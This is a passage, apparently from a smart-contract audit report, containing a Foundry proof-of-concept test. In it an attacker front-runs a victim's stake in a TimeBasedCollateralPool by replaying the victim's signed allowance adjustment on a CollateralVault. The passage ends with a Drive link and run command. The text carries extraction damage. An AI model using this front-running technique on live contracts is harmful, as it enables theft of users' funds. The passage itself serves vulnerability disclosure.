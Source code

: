 ```
            USDC,
            _allowanceAdjustment,
            0
        )
    ); 

    bytes32 message &#x3D; MessageHashUtils.toTypedDataHash(_buildDomainSeparator, structHash); 

    (uint8 v, bytes32 r, bytes32 s) &#x3D; vm.sign(VictimPrivateKey, message); 

   signature &#x3D; abi.encodePacked(r, s, v);

}

// forge test --match-test testStake -vvvvv | format &gt; testStake_241028_2120.log
function testStake() public {        
  
    console.log(&quot;Step : Another user Deposit to TimeBasedCollateralPool&quot;);

    uint256 amount &#x3D; 100*10**6; 

    bytes memory signature &#x3D; CreateSignature();
   
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool&quot;);
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
   
} 

function testStake_hacked() public {       
   
    console.log(&quot;Step : Another user Deposit to TimeBasedCollateralPool&quot;);
    uint256 amount &#x3D; 100*10**6;         
    bytes memory signature &#x3D; CreateSignature();
    console.log(&quot;Attacker front-run the victim by calling modifyCollateralizableTokenAllowanceWithSignature of CollateralVault_contract&quot;);
    uint256 _allowanceAdjustment &#x3D; 100*10**6; 
    
    CollateralVault(CollateralVault_contract).modifyCollateralizableTokenAllowanceWithSignature(victim, TimeBasedCollateralPool_contract, USDC, int256(_allowanceAdjustment), signature);

    testStake();         
   
}        
```

} \`\`\`

Just download the zip file:

https://drive.google.com/file/d/1u6GpvBXKcHu\_OBxBmMPtw-d2EirSsKtw/view?usp=sharing

The test code uses Foundry. Just Unzip and run the test case:

\`\`\`bash forge test --match-test testStake -vvvvv > testStake\_241028\_2120.log

\`\`\`
